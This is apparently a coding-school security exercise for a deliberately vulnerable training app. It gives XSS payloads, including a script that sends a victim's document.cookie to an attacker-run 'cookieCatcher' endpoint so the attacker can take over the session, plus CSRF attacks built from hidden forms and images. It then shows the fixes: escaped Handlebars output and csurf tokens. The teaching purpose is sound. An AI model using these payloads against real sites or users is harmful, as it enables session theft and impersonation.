 # Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e. escaped) before being rendered to the
page.
First we will exploit this vulnerability by making people send messages without
their knowledge.

1. Create a new user, we'll call this `User A`.
1. Send this message to `User A` from `User A`, refresh the page and check
   your console. You should see a message!

  ```html
  <script>
    console.log("I'm in your browser, running your JavaScripts");
  </script>
  ```

1. Make the `User A` send a message to via XSS. <br>
  Switch the `console.log()` statement with a `$.ajax()` call to
  make the same kind of `POST` request that the Send Message form
  on this page is making.

  ```html
  <script>
    $.ajax('/url of this page', {
      method: 'post',
      data: {
        // Form data goes here
      }
    })
  </script>
  ```
1. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout)
  and create a new user, `User B`.
1. Send a specially crafted message from `User B` to `User A` and make sure
  that you can use the same attack across users.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter.
This parameter is also not sanitized before being rendered to the page, so
we can run JavaScript with it to.

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()`
like this:

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
```

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie
you can impersonate them. This page is vulnerable because it prints out messages
received on the page without escaping (i.e. sanitizing) HTML.

We can run JavaScript on other users' pages by sending them messages with this
page containing the &lt;script&gt; tag. Cookies are accessible (by default) in
JavaScript via `document.cookie`. So if we craft the right script tag, we can
steal their cookie!

  ```html
  <script>
    console.log('I can see your cookies!', document.cookies);
  </script>
  ```

1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your console

  ```
  !!!Cookie catcher!!!
  ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute og this image.

  ```javascript
  var img = $('<img>');
  // Read and submit this cookie via the img tag
  img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // you need to edit this line to pass the cookies to your server. 
  $('body').append(img); // this will append the HTML element into the DOM and therefore fire a GET request to the URL above.
  ```
1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Clone the `steal-this-app` GitHub repo. The vulnerabilities are in
`steal-this-app/views/messenger.hbs`

Replace triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing attempt the XSS attacks you did earlier to verify they
no longer work!

This is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack called
Cross-site request forgery aka CSRF.

This type of attack does not involve running JavaScript in the target
site but instead relies on making requests on behalf of the user while
they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of a from Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start the Attacker app and connect to [http://localhost:3000/](http://localhost:3000/) make sure it's running.
1. Create a new route `GET /csrfLogout` that renders a single `img` tag
  that points to the logout page:
  ![](img/csrf1.png)

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2) Are you still logged in?

### (Bonus) b. Send POST request with CSRF

OK, we made someone log out without telling them. What's the big deal?
Well let's now take this to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send message, just like we did earlier
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger`
by using the `action` attribute and use a `POST` request with the
`method` attribute. It should look like this:

![](img/csrf2.png)

Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.

![](img/csrf3.png)

### (Bonus) Fix CSRF vulnerabilities

To fix CSRF we need to add a second layer of protection to endpoints
that perform actions i.e. `POST` endpoints.

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js`

  ```javascript
  var csrf = require('csurf')();
  app.use(csrf);
  ```

1. Now all your `GET` requests will contain a new property `req.csrfToken()`
  which you can render as a hidden form field.

  **Route**

  ```javascript
  app.use('/route', function(req, res) {
    res.render('template', {
      _csrf: req.csrfToken()
    });
  });
  ```

  **Template**

  ```html
  <form method="post">
    <input type="hidden" name="_csrf" value="{{csrfToken}}">
  </form>
  ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
